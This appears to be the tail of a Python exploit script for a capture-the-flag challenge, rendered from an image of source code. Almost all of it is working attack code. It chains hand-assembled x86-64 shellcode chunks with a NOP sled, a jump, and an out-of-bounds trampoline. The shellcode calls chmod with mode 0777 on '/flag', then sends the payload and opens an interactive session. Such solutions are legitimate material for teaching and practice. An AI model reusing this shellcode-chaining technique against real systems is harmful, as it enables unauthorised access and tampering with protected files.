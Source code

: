 ```python
    # p = gdb.debug(BINARY, close_fds=False, gdbscript=GDB_SCRIPT)

    FLAG_PATH = b'/flag'

    yan_buf = b''
    yan_buf += gen_instruction(b'\x90'*6)  # nop sled
    yan_buf += gen_instruction(b'\x90'*6)
    yan_buf += gen_instruction(b'\xeb\x51')  # jmp over the trampoline
    yan_buf += gen_trampoline(addr=325)  # OOB access of the legit addrs array. This const points to 0x64!
    
    yan_buf += gen_instruction(b'\x68\x2f\x66\x6c\x61\x5b')  # push 0x616c662f; pop rbx
    yan_buf += gen_instruction(b'\x6a\x67\x59')  # push 0x67; pop rcx
    yan_buf += gen_instruction(b'\x48\xC1\xe1\x20')  # shl rcx, 0x20
    yan_buf += gen_instruction(b'\x48\x01\xcb\x53')  # add rbx, rcx; push rbx
    yan_buf += gen_instruction(b'\x6a\x5a\x58')  # push 0x5a; pop rax
    yan_buf += gen_instruction(b'\x48\x89\xe7') # mov rdi, rsp
    yan_buf += gen_instruction(b'\x68\x77\x07\x00\x00\x5e')  # push 0x777; pop rsi
    yan_buf += gen_instruction(b'\x0f\x05')  # syscall
    # yan_buf_length = len(yan_buf)
    # yan_buf += b'\x42' * (0x1800 - len(yan_buf))  # Fill max possible yancode
    p.send(yan_buf)

    p.interactive()

exploit()
```
